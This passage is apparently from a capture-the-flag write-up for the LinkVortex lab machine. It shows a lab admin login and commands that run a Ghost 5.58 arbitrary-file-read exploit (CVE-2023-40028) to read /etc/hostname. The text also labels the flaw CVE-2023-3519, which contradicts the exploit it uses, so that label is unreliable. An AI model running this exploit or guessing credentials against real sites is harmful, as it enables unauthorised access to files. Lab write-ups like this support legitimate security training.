 ![](images/linkvortex/2025-10-04-18-13-35.png)

As this user does not exist, we try with other common emails like:
- `ghost@linkvortex.htb`
- `admin@linkvortex.htb`
- `test@linkvortex.htb`

We are able to login with `admin@linkvortex.htb:OctopiFociPilfer45`. 

We find a vulnerability in the Ghost version 5.58 called (CVE-2023-3519) which allows arbitrary file read. We use this repo to exploit it:
```bash
git clone https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028
cd Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028
./CVE-2023-40028.py -u "admin@linkvortex.htb" -p"OctopiFociPilfer45" -h "http://linkvortex.htb"
/etc/hostname
```
```
File content:
4279cdfa76ca
```
